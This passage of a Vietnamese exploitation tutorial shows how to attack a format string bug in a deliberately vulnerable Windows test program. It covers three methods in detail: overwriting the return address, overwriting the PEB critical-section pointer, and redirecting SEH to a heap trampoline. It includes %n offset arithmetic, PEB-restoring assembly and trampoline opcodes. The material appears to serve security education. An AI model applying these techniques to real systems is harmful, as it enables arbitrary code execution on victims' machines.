- Xâu đầu vào của chúng ta hiện nay sẽ là 
  - 20 tham số “***%08x***” + 42 tham số “***%x”*** + “***AAAA***”
- Thật tiếc Olly chỉ hỗ trợ hiển thị tối đa 30 tham số nên chúng ta sẽ không thể xem được đoạn comment.

  

*Hình 34- Đến tham số thứ 31 thì không thấy hiện comment nữa*

- Tuy nhiên vẫn có cách để thử xem đã đến được ô 0x41414141 chưa, bằng cách thay tham số %x cuối cùng thành %n và xem báo lỗi

  

*Hình 35 – Thông tin exception*

- Như vậy chúng ta đã đặt %n đúng chỗ cần đặt, vào vị trí %x41414141
- Công việc tiếp theo là thay 0x41414141 thành địa chỉ cần ghi (0x0012FF30)

  

*Hình 36**


*Hình 37 – Nhìn vào stack và xác định địa chỉ sẽ đặt shellcode*

- Theo hình 37,  shellcode của chúng ta sẽ được đặt từ địa chỉ ***0x0012D8A4,***để tăng tính ổn định trong quá trình khai thác, trong shellcode chúng ta sẽ đặt cách ***0x0012D8A4*** một khoảng nào đó và trong shellcode ta sẽ cho 1 loạt lệnh **nop** ở đầu.
- Tóm lại, ta sẽ cho địa chỉ trả về là ***0x0012D8C0***
- Tại địa chỉ 0x0012FF30 sẽ phải có dạng **C0 D8 12 00.** Giá trị cần ghi sẽ là 0x12D8C0.
- Theo hình 36, ta thấy giá trị ghi hiện tại là **0x01E8**
  - Như vậy, ta sẽ phải thay 1 tham số %08x thành %??x nào đó
  - ??= 0x12D8C0 – (0x01E8 - 8) = 0x12D6E0 = **1234656**


*Hình 38 – nội dung của file đầu vào*

- Khi thay 08 thành 1234656 có thể ta sẽ gặp rắc rối một chút trong độ dài xâu, ví dụ trong trường hợp này

  

*Hình 39 – ô nhớ chứa địa chỉ đã bị đẩy 00 xuống 1 ô*

- Điều này có nghĩa là ta sẽ phải thêm 3 byte vào trước nữa để “đẩy” 0x12FF30 xuống cùng ô với 00


*Hình 40 – Thêm 3 ký tự A*

- Đồng nghĩa với %n sẽ bị đẩy xuống 1 ô, ta thêm 2 tham số %x nữa


*Hình 41 – do chỉnh linh tinh nên giá trị đưa vào hơi lệch một chút*

- Ta sẽ phải giảm giá trị đi một chút E3-C0 = 0x23 = **35**


*Hình 42 – ok*

- Khi khác thác cụ thể sẽ gặp một vài vấn đề rắc rối, ở trên là 1 ví dụ, tùy vào từng trường hợp mà có sự tinh chỉnh cụ thể.
- Đã có địa chỉ trả về, giờ ta sẽ thêm shellcode vào cuối xâu format, dùng **meta exploit** hoặc tự viết, nhớ thêm một vài mã 90 đằng trước (**nop**).

  

*Hình 43 – Shellcode*


*Hình 44 – đặt breakpoint tại 0x0012D8C0*

- Và đây là kết quả:


*Hình 45 – Shellcode bật calculator đã được thực thi*

- Đánh giá phương pháp:
  - Ưu điểm:
    - Dễ khai thác
    - Không phụ thuộc vào phiên bản Windows
- Nhược điểm:
  - Không ổn định do địa chỉ stack được cấp phát ở các máy khác nhau nên shellcode chạy sẽ không ổn định
  - Qua thử nghiệm ở quy mô hẹp (20 máy) thì xác xuất thành công là 50%
  - Qua thử nghiệm thì thấy địa chỉ stack chỉ có 2 dạng 0x0012xxxx và 0x0013xxxx, phần xxxx thì không thay đổi
    ### 2. <a name="_toc212524046"></a>**Phương pháp ghi đè lên địa chỉ của RtlEnterCriticalSection trong cấu trúc PEB:**
- Ở phần trước ta vừa tìm hiểu 1 phương pháp không phụ thuộc vào phiên bản windows nhưng phụ thuộc vào máy khác nhau, trong phần này chúng ta sẽ cùng nhau tìm hiểu phuơng pháp khai thác thứ 2, phương pháp này lại không phụ thuộc vào máy mà lại phụ thuộc vào phiên bản windows
- Ta xét 2 phiên bản windows: windows xp sp1 trở về trước (windows 2000) và windows xp sp2 trở về sau.
#### ***Khai thác trên windows 2000:***
- Trước tiên cần hiểu cấu trúc PEB là gì và sẽ sử dụng như thế nào để khai thác. Đây là một cấu trúc quan trọng của chương trình do hệ điều hành quản lý, nó lưu trữ các con trỏ (địa chỉ) hàm sẽ sử dụng trong chương trình. Hai hàm **RtlEnterCriticalSection()** và **RtlLeaveCriticalSection()** cũng được xác định bằng con trỏ hàm nằm trong cấu trúc này. Hai hàm này sẽ được gọi khi hàm **Exitprocess() được gọi**. Địa chỉ hàm của 2 hàm này được lấy ra bằng cách sử dụng 2 hàm RtlAccquirePebLock() và RtlReleasePebLock() hai hàm này được xuất ra từ NTDLL.DLL, hai hàm này sẽ truy nhập đến ô nhớ chứa địa chỉ của 2 hàm ở trên để lấy địa chỉ của 2 hàm này và thực hiện.
- Như vậy nếu ta làm giả được **giá trị trong ô nhớ** mà RtlAccquirePebLock() và RtlReleasePebLock() truy nhập đến thành địa chỉ shellcode của chúng ta thì chúng ta hoàn toàn có thể thực thi được shellcode khi hàm Exitprocess() được gọi, mà hàm Exitprocess() lại thường được gọi khi xảy ra **exception.**
- Thật may mắn, địa chỉ của ô nhớ mà chúng ta bàn ở phần trên lại là một giá trị cố định với các bản windows xp sp1 trở về trước và nó mang giá trị là **0x7FFDF020**
- Tóm lại quá trình sẽ là:
  - Xảy ra exception, hàm exitprocess() được gọi
  - Trong hàm exitprocess() có gọi RtlAccquirePebLock() và RtlReleasePebLock() để lấy địa chỉ của **RtlEnterCriticalSection()**
  - Hai hàm này sẽ truy cập đến vị trí cố định **0x7FFDF020** và trả lại cho hàm exitprocess() địa chỉ hàm **RtlEnterCriticalSection()**
  - Hàm exitprocess() sau khi nhận được địa chỉ hàm sẽ gọi hàm đó!
- Như vậy công việc khai thác của chúng ta bây giờ đơn giản sẽ là:
  - Ghi đè lên địa chỉ **0x7FFDF020** địa chỉ của shellcode đã có
  - Gây exception cho chương trình.
- Các bước để ghi đè giá trị địa chỉ shellcode vào **0x7FFDF020** hoàn toàn giống với các bước ghi đè địa chỉ shellcode vào địa chỉ trả về đã nói ở trên, ở đây sẽ đơn giản hơn do 0x7FFDF020 là địa chỉ không có ký tự null (0x00) nên địa chỉ này sẽ được đặt lên đầu xâu format, đoạn khai thác này sẽ được trình bày ngắn gọn.

  

*Hình 46 - %n đã được trỏ đến ô nhớ chứa địa chỉ cần ghi đè và giá trị đã được tính toán hợp lý để ra được địa chỉ shellcode 0x0012D860*



*Hình 47 – địa chỉ 0x7FFDF020 đã được ghi đè địa chỉ shellcode*

- Sau khi địa chỉ 0x7FFDF020 đã chứa địa chỉ shellcode (shellcode nằm ngay sau xâu format), công việc còn lại là làm cho chương trình **xảy ra exception**, rất đơn giản, hãy cho một vài tham số %s vào ngay sau tham số %n.

  

*Hình 48 - %s trỏ đến vùng địa chỉ không có thực nên xảy ra crash*

- Một điều đáng **lưu ý**: do chúng ta đã tác động sửa lên cấu trúc PEB nên trong shellcode cần thực hiện trả lại giá trị con trỏ hàm cho hàm RtlEnterCriticalSection() và RtlLeaveCriticalSection() Ngay đầu shellcode cần phải có đoạn mã sau:

```
mov word [7FFDF020h],0AA4Ch	; tra lai PEB cho ham RtlEnterCriticalSection
mov word [7FFDF022h],077F8h
mov word [7FFDF024h],0AA7Dh	; ham RtlLeaveCriticalSection
mov word [7FFDF026h],077F8h
```

  

*Hình 49 – xảy ra exception, hàm exitprocess() được gọi, đặt breakpoint tại 0x0012D860*

- Và đây là kết quả:


*Hình 50 – shellcode bật calculator đã được thực thi*

- Đánh giá phương pháp:
  - Ưu điểm: 
    - Không phụ thuộc vào các máy khác nhau
    - Ổn định trên windons phiên bản xp sp 1 trở về trước
- Nhược điểm:
  - Phụ thuộc nhiều vào phiên bản hệ điều hành
  - Bắt đầu từ windows xp sp2 trở đi, việc khai thác bằng phương pháp này sẽ không còn ổn định nữa, ở phần tiếp theo chúng ta sẽ bàn về vấn đề này.
#### ***Khai thác trên windows xp sp2:***
- Như đã nói ở trên, bắt đầu từ phiên bản windows xp sp2, cơ chế quản lý PEB đã có “chút”  thay đổi, địa chỉ chứa con trỏ hàm RtlEnterCriticalSection() sẽ không còn cố định nữa (tức là địa chỉ 0x7FFDF020) mà là giá trị “ngẫu nhiên” trong môi lần chạy chương trình.
- Chữ ngẫu nhiên được đưa vào ngoặc kép ở trên là có ngụ ý cả! Cơ chế quản lý mới này với giá trị gọi là random nhưng thực chất nó không phải random, trong địa chỉ 0x7FFD**F**020 chỉ thay đổi đúng 4 bit của 1 byte, đó là 4 bít đầu của byte thứ 3 (đã bôi đỏ)
- 4 bít thay đổi đó chỉ chạy quanh các giá trị từ 4 đến f và qua thử nghiệm thì xác suất vào f là cao nhất.
- Như vậy nếu ta giữ nguyên cách khai thác đối với khai thác trên windows 2000 thì ta vẫn có cơ hội khai thác thành công (tỷ lệ thành công khoảng 20%) cũng là rất nguy hiểm cho người sử dụng.
  - **Chú ý** khi chuyển mã khai thác từ windows 2000 sang xp sp2 thì cần sửa shellcode một chút do địa chỉ của RtlEnterCriticalSection() và RtlLeaveCriticalSection() đã thay đổi, đoạn mã khôi phục PEB cần được sửa một chút cho đúng địa chỉ.
- Đánh giá phương pháp:
  - Ưu điểm:
    - Chẳng có ưu điểm gì so với khai thác trên windows 2000
- Nhược điểm:
  - Xác suất thành công thấp (chỉ khoảng 20%)
  - Cần nghiên cứu thêm trên TEB


*Hình 51 – Hình minh họa khai thác thành công trên windows xp sp2* 
### 3. <a name="_toc212524047"></a>**Ghi đè SEH địa chỉ trên heap chứa shellcode:**
- Nghe cái tên có vẻ khó hiểu! Nhưng tóm lại là thế này: chúng ta sẽ ghi đè địa chỉ của 1 vùng heap vào 1 SEH (SEH đầu tiên càng tốt), vùng heap này có đặc điểm là chứa shellcode có thể thực thi, shellcode này chỉ có nhiệm vụ chuyển điều khiển về shellcode thực sự đang nằm trong stack.
- Về cơ bản thì phương pháp này không khác phương pháp ghi đè vào địa chỉ trả về do cùng ghi vào 1 địa chỉ nằm trong stack, nhưng có thể nói là cao cấp hơn 1 chút J vì có sử dụng cả heap.
- Nói qua một chút về lý do sử dụng phương pháp này: chúng ta muốn sử dụng SEH, tuy nhiên để sử dụng cái này chúng ta cần đưa vào SEH một địa chỉ hợp lệ, về tính hợp lệ của địa chỉ này, sẽ không bàn ở đây, nhưng chắc chắn vùng heap sẽ là vùng hợp lệ.
- Như vậy nếu shellcode nằm trên heap thì sẽ chắc chắn được thực thi, nhưng làm sao mà đưa shellcode lên đó được! Một đoạn shellcode nhỏ sẽ được đưa lên thông qua lỗi của format string (ghi dữ liệu lên vùng nhớ), đoạn này chỉ khoảng tầm 8 byte, 8 byte này có nhiệm vụ cho chuyển hướng chương trình về vùng shellcode nằm trong stack.
- Ok! Let’s go! Bây giờ chúng ta sẽ đi vào quá trình khai thác:

- Chúng ta sẽ thực hiện công việc ghi shellcode lên vùng heap: Như vậy chương trình cần phải có vùng nhớ heap, vùng heap không có ký tự null thì sẽ dễ dàng hơn cho quá trình khai thác, và trên thực tế hầu hết các chương trình đều có vùng heap lên đến các địa chỉ không có ký tự null ở đầu, tức là có sử dụng cấp pháp động (mà nếu không sử dụng cấp phát động nhiều đến thế thì chắc chắn kiểu gì cũng dính **BoF**)
- Trong trường hợp này chúng ta sẽ cần chỉnh lại chương trình ***Cenaaa.cpp*** đã được sử dụng ở 2 phương pháp trước, nhằm tạo vùng heap đủ lớn để có địa chỉ không chứa ký tự null.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <conio.h>
#include <windows.h>

DWORD CenException()
{
      puts("\r\nException....");
      ExitProcess(1);
      return 0;
}
void ham()
{
	FILE * pFile;
	long lSize;
	char buffer[10000];

	size_t result;

	pFile = fopen ("FileFS.txt","rb");
	if (pFile==NULL)
	{
		printf("can't open file FileFS.txt");
		return;
	}

	fseek (pFile , 0 , SEEK_END);
	lSize = ftell (pFile);
	rewind (pFile);
		
	result = fread (buffer,1,lSize,pFile);
	buffer[result]='\0';	
	
	__try{		
		printf(buffer);
	} // __try
	__except(CenException()){
		ExitProcess(1);
	}
}
main()
{
	for (int i=0;i<=23;i++) // tạo vùng heap
	{
		HeapAlloc(HeapCreate(0x00040000,100000,2000000),0,1000000);
	}
	ham();
	getch();
}
```

- Chương trình này có một chút cải tiến so với chương trình trước đó là có phần cấp phát động, phần này sẽ khởi tạo vùng nhớ trên heap, nhờ đó mà ta sẽ có địa chỉ trên vùng heap đủ lớn để không chứa ký tự null

  

*Hình 52 - View vào heap và tìm địa chỉ nào*

- Ta thấy có rất nhiều vùng nhớ hợp lý mà chúng ta có thể sử dụng. Tuy vậy nhưng cũng phải chọn ra một vùng, chúng ta sẽ dùng địa chỉ ***0x014B06A3***, không mang ý nghĩa gì, chỉ là random thôi!
- Như vậy công việc đầu tiên lúc này sẽ là ghi một đoạn shellcode nhỏ có tác dụng trở về shellcode như lúc nãy đã nói, nội dung đoạn shellcode này là gì?

```
MOV     EAX, ESP
MOV     AX, 0x????  // ???? dua vao sau
JMP     NEAR EAX
```

- Ý nghĩa đoạn này là gì? 2 lệnh đầu là để lấy giá trị địa chỉ của shellcode, lệnh sau là jump. Mã lệnh đầu tiên là để lấy 2 byte cao của stack(0x0012), mã lệnh thứ 2, ???? sẽ được thay bằng phần 2 byte thấp của địa chỉ chứa shellcode trong stack
- Trong trường hợp này, ??? sẽ là ***D980*** do shellcode nằm tại địa chỉ 0x12D980

```
MOV     EAX, ESP
MOV     AX, 0xD980  // ???? dua vao sau
JMP     NEAR EAX
```

- Đoạn mã này khi dịch ra mã máy sẽ thành 8 byte: **8B C4 66 B8 80 D9 FF E0**
- Công việc của chúng ta lúc này sẽ là ghi đè 8 byte lên vùng địa chỉ ***0x014B06A3***, một công việc khá quen thuộc đã làm từ 2 phần trước.
- Ở đây tôi xin giới thiệu một **phương pháp ghi đè mới**, phương pháp này đảm bảo rằng bạn có thể ghi bất kỳ thứ gì lên bộ nhớ (kể cả một chương trình dài nếu buffer đủ lớn)
- Ví dụ trong trường hợp với 8 byte kia, chúng ta sẽ thực hiện ghi lần lượt 2 byte một, tức là một tham số %n sẽ chịu trách nhiệm ghi 2 byte.
  - Cụ thể 2 byte đầu tiên sẽ được ghi vào ***0x014B06A3*** với giá trị của số cột đã in ra màn hình là 0xC48B
  - Như vậy 2 byte tiếp theo 66 B8 sẽ được ghi bằng cách tính toán cho số cột in ra màn hình là 0xB866 vào ***0x014B06A5*?** Điều này là không thể! Do lần đầu ghi, chúng ta đã in ra màn hình 0xC48B cột màn hình rồi, mà 0xB866 là số nhỏ hơn! Vậy phải làm sao? Chúng ta sẽ ghi một số lớn hơn vậy J 0x**1**B866 sẽ là lựa chọn.
  - Cứ thế mà tiếp tục, 2 byte nữa lại ghi vào ***0x014B06A7*** và với giá trị 0x1D980
- Các bước ghi và tính toán số cột in ra màn hình hợp lý sẽ được thực hiện giống như các phương pháp trước

  

*Hình 53 – kết quả sau khi ghi shellcode*

- Đã có shellcode trên heap, công việc tiếp theo sẽ là chuyển hướng 1 seh đến vùng heap này.

  

  

*Hình 54 – thông tin seh trước khi thực hiện hàm printf()*

- Muốn cho khi xảy ra exception chương trình nhảy vào vùng heap của mình thì ta phải ghi đè địa chỉ heap vào seh đầu tiên (tức là tại địa chỉ 0x0012FF1C như hình vẽ)
- Vậy tiếp theo chúng sẽ thực hiện ghi giá trị ***0x014B06A3*** vào 0x0012FF1C
- Cũng thực hiện tương tự như các phần trước, có điều nên ghi 2 lần mỗi lần 2 byte thì shellcode sẽ thực hiện nhanh hơn.

  

  

*Hình 55 – seh đã được đưa về heap*

- Công việc cuối cùng là thêm %s để gây crash:
  - Chương trình sẽ xảy ra exception
  - SEH chuyển hướng vào heap
  - Từ heap chạy shellcode chuyển hướng vào shellcode của chúng ta nằm trong stack



*Hình 56 – shellcode bật calculator đã được thực thi*

- Đánh giá phương pháp:
  - Nhược điểm:
    - Phụ thuộc vào môi trường, do thay đổi địa chỉ stack
    - Phải có vùng heap thỏa mãn
- Ưu điểm:
  - Qua mặt được cơ chế SEH ‘củ chuối’ của Microsoft
  - Chạy cũng khá ổn định, xác suất thành công là 50%
  - Một đặc điểm quan trọng: dễ dàng chuyển đổi sang máy khác, ở trên địa chỉ stack là 0x0012xxxx thì file nhập vào có dạng:


- Khi chuyển sang máy khác (thông thường chỉ khác 0x0013xxxx) thì chỉ cần thay 1 chút là xong.
